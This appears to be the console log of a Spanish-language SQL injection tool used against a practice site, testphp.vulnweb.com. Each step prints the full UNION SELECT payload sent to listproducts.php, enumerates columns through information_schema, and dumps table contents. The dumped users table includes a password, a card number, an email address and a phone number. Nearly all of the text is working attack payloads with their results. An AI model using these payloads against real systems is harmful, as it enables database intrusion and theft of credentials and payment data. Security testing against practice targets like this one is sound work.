[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='pictures' -- -=17&prueba=5
[+] Se han encontrado 8 columnas: ['a_id', 'cat_id', 'img', 'pic_id', 'plong', 'price', 'pshort', 'title']

[!] Buscando los datos de la columna a_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",a_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['1', '1', '1', '1', '1', '1', '2']

[!] Buscando los datos de la columna cat_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cat_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['1', '1', '1', '1', '1', '2', '1']

[!] Buscando los datos de la columna img

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",img,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['./pictures/1.jpg', './pictures/2.jpg', './pictures/3.jpg', './pictures/4.jpg', './pictures/5.jpg', './pictures/6.jpg', './pictures/7.jpg']

[!] Buscando los datos de la columna pic_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",pic_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['1', '2', '3', '4', '5', '6', '7']

[!] Buscando los datos de la columna plong

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",plong,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 2 datos:  ['\nThis picture is an 53 cm x 12 cm masterpiece.\n\n\nThis text is not meant to be read. This is being used as a place holder. Please feel free to change this by inserting your own information.This text is not meant to be read. This is being used as a place holder. Please feel free to change this by inserting your own information.This text is not meant to be read. This is being used as a place holder. Please feel free to change this by inserting your own information.This text is not meant to be read. This is being used as a place holder. Please feel free to change this by inserting your own information. \n', '\nThis picture is an 53 cm x 12 cm masterpiece.\n\n\nThis text is not meant to be read. This is being used as a place holder. Please feel free to change this by inserting your own information.This text is not meant to be read. This is being used as a place holder. Please feel free to change this by inserting your own information.This text is not meant to be read. This is beipainted by: parametro8comment on this picture']

[!] Buscando los datos de la columna price

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",price,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['500', '800', '986', '1000', '460', '10000', '15000']

[!] Buscando los datos de la columna pshort

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",pshort,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\nSed aliquam sem ut arcu.', 'Donec molestie.\nSed aliquam sem ut arcu.', 'Lorem ipsum dolor sit amet. Donec molestie.\nSed aliquam sem ut arcu.', 'Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\nSed aliquam sem ut arcu. Phasellus sollicitudin.\n', 'Lorem ipsum dolor sit amet, consectetuer adipiscing elit.', 'Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\nSed aliquam sem ut arcu. Phasellus sollicitudin.\n', 'bla bla bla']

[!] Buscando los datos de la columna title

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",title,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.pictures -- -=17&prueba=5
[+] Se han encontrado 7 datos:  ['The shore', 'Mistery', 'The universe', 'Walking', 'Mean', 'Thing', 'Trees']

[!] Buscando las columnas de la tabla products
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='products' -- -=17&prueba=5
[+] Se han encontrado 5 columnas: ['description', 'id', 'name', 'price', 'rewritename']

[!] Buscando los datos de la columna description

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",description,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.products -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['NET STORAGE ENCLOSURE SATA DNS-313 D-LINK', 'Web Camera A4Tech PK-335E', 'Laser Color Printer HP LaserJet M551dn, A4']

[!] Buscando los datos de la columna id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.products -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['1', '2', '3']

[!] Buscando los datos de la columna name

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.products -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['Network Storage D-Link DNS-313 enclosure 1 x SATA', 'Web Camera A4Tech PK-335E', 'Laser Color Printer HP LaserJet M551dn, A4']

[!] Buscando los datos de la columna price

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",price,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.products -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['359', '10', '812']

[!] Buscando los datos de la columna rewritename

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",rewritename,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.products -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['network-attached-storage-dlink', 'web-camera-a4tech', 'color-printer']

[!] Buscando las columnas de la tabla users
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='users' -- -=17&prueba=5
[+] Se han encontrado 8 columnas: ['address', 'cart', 'cc', 'email', 'name', 'pass', 'phone', 'uname']

[!] Buscando los datos de la columna address

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",address,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['https://github.com/henriquecesar139']

[!] Buscando los datos de la columna cart

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cart,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['ee641421945e33ee9b6a1606ba28c017']

[!] Buscando los datos de la columna cc

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cc,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['4002-8922-4002-8922']

[!] Buscando los datos de la columna email

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",email,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['nqueroprova@gmail.com']

[!] Buscando los datos de la columna name

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['lorde_Henrique']

[!] Buscando los datos de la columna pass

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",pass,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['test']

[!] Buscando los datos de la columna phone

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",phone,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['83988381501']

[!] Buscando los datos de la columna uname

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",uname,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.users -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['test']
[+] Terminado el proceso de analisis de la pagina


Selecciona una opcion:

    1. Seleccionar base de datos
    2. Ver base de datos
    3. Salir

-> 1

Selecciona una de las siguientes bases de datos: acuart

-> acuart

Selecciona una opcion:

    1. Ver tabla
    2. Volver a seleccion de base de datos
    3. Salir

[acuart] -> 1

Selecciona una de las siguientes tablas: artists carts categ featured guestbook pictures products users

[acuart] -> users
+-------------------------------------+----------------------------------+---------------------+-----------------------+----------------+------+-------------+-------+
|               address               |               cart               |          cc         |         email         |      name      | pass |    phone    | uname |
+-------------------------------------+----------------------------------+---------------------+-----------------------+----------------+------+-------------+-------+
| https://github.com/henriquecesar139 | ee641421945e33ee9b6a1606ba28c017 | 4002-8922-4002-8922 | nqueroprova@gmail.com | lorde_Henrique | test | 83988381501 |  test |
+-------------------------------------+----------------------------------+---------------------+-----------------------+----------------+------+-------------+-------+

Selecciona una opcion:

    1. Ver tabla
    2. Volver a seleccion de base de datos
    3. Salir

[acuart] -> 1

Selecciona una de las siguientes tablas: artists carts categ featured guestbook pictures products users

[acuart] -> categ
+--------+---------------------------------------------------------------------------------------+-----------+
| cat_id |                                         cdesc                                         |   cname   |
+--------+---------------------------------------------------------------------------------------+-----------+
|   1    |       Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.       |  Posters  |
|        |     Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis |           |
|        |         nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.     |           |
|        |                                       Cras venenati                                   |           |
|   2    |       Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.       | Paintings |
|        |     Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis |           |
|        |         nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.     |           |
|        |                                       Cras venenati                                   |           |
|   3    |       Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.       |  Stickers |
|        |     Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis |           |
|        |         nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.     |           |
|        |                                       Cras venenati                                   |           |
|   4    |       Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.       |  Graffity |
|        |     Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis |           |
|        |                      nulla. In hac habitasse platea dictumst. Nulla                   |           |
+--------+---------------------------------------------------------------------------------------+-----------+

Selecciona una opcion:

    1. Ver tabla
    2. Volver a seleccion de base de datos
    3. Salir

[acuart] -> 2

Selecciona una opcion:

    1. Seleccionar base de datos
    2. Ver base de datos
    3. Salir

-> 3

```
